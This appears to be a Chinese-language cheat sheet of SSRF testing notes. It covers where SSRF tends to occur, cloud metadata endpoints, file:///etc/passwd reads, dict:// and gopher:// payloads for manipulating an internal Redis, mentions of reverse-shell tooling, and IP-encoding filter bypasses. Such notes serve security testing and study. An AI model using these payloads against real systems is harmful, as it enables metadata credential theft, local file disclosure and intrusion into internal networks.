

## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```


file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

可携带请求包发起get,post请求。

工具gopherus，可以直接计划任务反弹和phpshell。

```

^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>

使用gopherus.py对无密码mysql执行语句：


有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD


^
## **SSRF绕过**
```
跳转型
https://33129999.xyz@baidu.com

302型
```
^
姿势1：

```
1http://127.1:80
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
1http://2130706433/ = http://127.0.0.1
2http://3232235521/ = http://192.168.0.1
3http://3232235777/ = http://192.168.1.1
4http://2852039166/  = http://169.254.169.254
```

姿势3：利用DNS解析
```
1http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>